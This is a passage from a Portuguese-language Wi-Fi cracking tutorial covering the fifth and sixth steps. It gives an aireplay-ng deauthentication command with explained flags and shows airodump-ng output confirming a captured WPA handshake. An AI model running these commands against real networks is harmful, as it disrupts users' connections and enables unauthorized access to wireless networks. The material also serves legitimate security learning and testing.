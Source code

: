  

_________________________________________________________________________________________________________________________________________________________ 

# Quinto passo

##### Enquanto o trafego do alvo é capturado, você devera fazer um ataque de Deauthentication em um dispositivo que está conectado ao AP. Em seguida o dispositivo irá se conectar de novo automaticamente (ou manualmente por uma pessoa). E nessa hora o HANDSHAKE é capturado...

##### Para desautenticar uma STATION de um AP use o aireplay-ng:
```
$ aireplay-ng -0 1 -a <macAP> -c <macSTATION> <interface>
```
> -0 especifica o Deauthentication attack   
> 1 é o número de deauths a serem enviados  
> -a mac do AP alvo   
> -c mac do dispositivo cliente para desautenticar


##### A saida sera parecida com essa:
```
12:35:25  Waiting for beacon frame (BSSID: 00:14:6C:7E:40:80) on channel 9
12:35:25  Sending 64 directed DeAuth. STMAC: [00:0F:B5:AE:CE:9D] [ 61|63 ACKs]

[ ACKs recebidos da STATION | ACKs recebidos do AP]
```
 
 
 
 
_________________________________________________________________________________________________________________________________________________________
# Sexto passo

##### Se o Quinto passo for bem sucedido, no terminal do airodump-ng capturando o trafego da rede alvo aparecera a confirmação de que o handshake foi capturado [ WPA handshake: 00:14:6C:7E:40:80

Exemplo:

```	 
CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7E:40:80 ]
                                                                                                           
         BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                           
         00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
         00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP         bigbear 
         00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy       
```
